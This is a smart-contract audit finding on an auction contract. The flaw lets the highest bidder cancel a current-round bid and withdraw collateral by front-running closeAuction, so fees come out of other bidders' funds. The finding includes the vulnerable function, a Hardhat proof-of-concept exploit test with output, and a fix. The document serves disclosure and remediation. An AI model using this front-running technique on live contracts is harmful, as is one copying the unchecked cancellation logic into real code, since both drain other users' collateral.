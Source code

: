 # H-01 The highest bidder can cancel his bid, leading to funds loss of other bidders when closing the auction

## Summary
There are two places where a bidder can cancel his bid: [_cancelBid](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L378-L411) and [_cancelAllBids](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416-L434). `_cancelAllBids` does not prevent the highest bidder from canceling his bid on the current round.

## Vulnerability Detail
The function [EnglishPeriodicAuctionFacet::cancelAllBidsAndWithdrawCollateral](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/facets/EnglishPeriodicAuctionFacet.sol#L187-L190) allows a bidder to cancel all his bids of previous rounds and withdraw the collateral, it calls [_cancelAllBids](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416-L434) to cancel all previous bids. **However, the function does not prevent the highest bidder from canceling his bid in the current round**:
```js
function _cancelAllBids(uint256 tokenId, address bidder) internal {
    EnglishPeriodicAuctionStorage.Layout
        storage l = EnglishPeriodicAuctionStorage.layout();

    uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

    for (uint256 i = 0; i <= currentAuctionRound; i++) {
        Bid storage bid = l.bids[tokenId][i][bidder];

        // @audit Does not check if bidder is the highest bidder on currentAuctionRound !
        if (bid.collateralAmount > 0) {
            // Make collateral available to withdraw
            l.availableCollateral[bidder] += bid.collateralAmount;

            // Reset collateral and bid
            bid.collateralAmount = 0;
            bid.bidAmount = 0;
        }
    }
}
```
Someone with a large ETH balance can place bids with a large amount of collateral to discourage others from bidding, and withdraw his collateral later. That is because, when canceling the bid and if the bidder is the highest, the state `highestBids` is not updated.

**This vulnerability causes funds loss of other bidders when closing the auction**. Consider the following scenario:
- a malicious highest bidder monitoring the mempool can front-run the `closeAuction` transaction to call `cancelAllBidsAndWithdrawCollateral` and withdraw his collateral. The `closeAuction` transaction reach [this line](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L534-L536) to send the fees to the beneficiary
```js
// Distribute fee to beneficiary
if (l.highestBids[tokenId][currentAuctionRound].feeAmount > 0) {
    IBeneficiary(address(this)).distribute{
    value: l.highestBids[tokenId][currentAuctionRound].feeAmount
}();
}
```
**Because the highest bidder has already withdrawn his bid, the contract will pay fees from other bidders' collateral who have not withdrawn their collateral yet**. Some bidders may not be able to withdraw their collateral later.

## Proof of Concept
The following proof of concept illustrates the previously described vulnerability.
Place the following test in `test/auction/EnglishPeriodicAuction.ts`:
```ts
describe('cancelBid', function () {
    // ... previous tests

    it('PoC', async function () {
      // Auction start: Now - 200
      // Auction end: Now + 100
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) - 200,
        licensePeriod: 1000,
      });

      const bidAmount1 = ethers.utils.parseEther('1.1');
      const feeAmount1 = await instance.calculateFeeFromBid(bidAmount1);
      const collateralAmount1 = feeAmount1.add(bidAmount1);

      // new highest bidder
      const bidAmount2 = ethers.utils.parseEther('1.2');
      const feeAmount2 = await instance.calculateFeeFromBid(bidAmount2);
      const collateralAmount2 = feeAmount2.add(bidAmount2);

      await instance
        .connect(bidder1)
        .placeBid(0, bidAmount1, { value: collateralAmount1 });

      await instance
        .connect(bidder2)
        .placeBid(0, bidAmount2, { value: collateralAmount2 });

      await time.increase(100); // auction is ended

      // The highest malicious bidder notices `closeAuction` tx, he front-runs it
      // to cancel his bid and withdraw his collateral.
      await expect(
        instance.connect(bidder2).cancelAllBidsAndWithdrawCollateral(0),
      ).to.not.be.reverted;

      await instance.connect(bidder1).closeAuction(0);

      // bidder 1 cancels his bid to withdraw his collateral, tx will be reverted!
      await expect(instance.connect(bidder1).cancelBidAndWithdrawCollateral(0, 0)).to.be.reverted;
    });
})
```
```bash
EnglishPeriodicAuction
    cancelBid
      ✔ PoC (1010ms)


  1 passing (2s)
```
## Impact
This vulnerability has two impacts:
- A malicious bidder with a large ETH balance can disincentivize other bidders from placing bids as described above
- Loss of funds of other bidders

## Code Snippet
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416-L434
## Tool used

Manual Review

## Recommendation
The root reason for this vulnerability is that the `_cancelAllBids` does not prevent the highest bidder from canceling his bid on the current round. Add a check to prevent that like is done in [_cancelBid](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L393-L396).

Below is a suggested update of `_cancelAllBidts`:
```diff
function _cancelAllBids(uint256 tokenId, address bidder) internal {
    EnglishPeriodicAuctionStorage.Layout
        storage l = EnglishPeriodicAuctionStorage.layout();

    uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

+    require(
+        bidder != l.highestBids[tokenId][currentAuctionRound].bidder,
+        'EnglishPeriodicAuction: Cannot cancel bid if highest bidder'
+    );

    for (uint256 i = 0; i <= currentAuctionRound; i++) {
        Bid storage bid = l.bids[tokenId][i][bidder];

        if (bid.collateralAmount > 0) {
        // Make collateral available to withdraw
        l.availableCollateral[bidder] += bid.collateralAmount;

            // Reset collateral and bid
            bid.collateralAmount = 0;
            bid.bidAmount = 0;
        }
    }
}
```